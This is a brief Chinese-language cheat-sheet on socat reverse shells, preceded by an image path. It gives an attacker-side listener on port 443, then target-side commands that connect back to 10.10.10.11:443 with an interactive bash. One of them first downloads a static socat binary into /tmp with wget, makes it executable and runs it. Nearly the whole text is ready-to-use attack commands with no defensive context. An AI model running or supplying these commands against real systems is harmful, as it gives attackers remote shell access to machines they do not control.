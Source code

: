 # Socat反弹shell

首先在本地监听TCP协议443端口

```bash
socat file:`tty`,raw,echo=0 TCP-L:443

```

然后在靶机上执行如下命令：

```bash
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane 
tcp:10.10.10.11:443

```

```bash
socat tcp-connect:10.10.10.11:443 exec:"bash -li",pty,stderr,setsid,sigint,sane

```

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.11:443

```

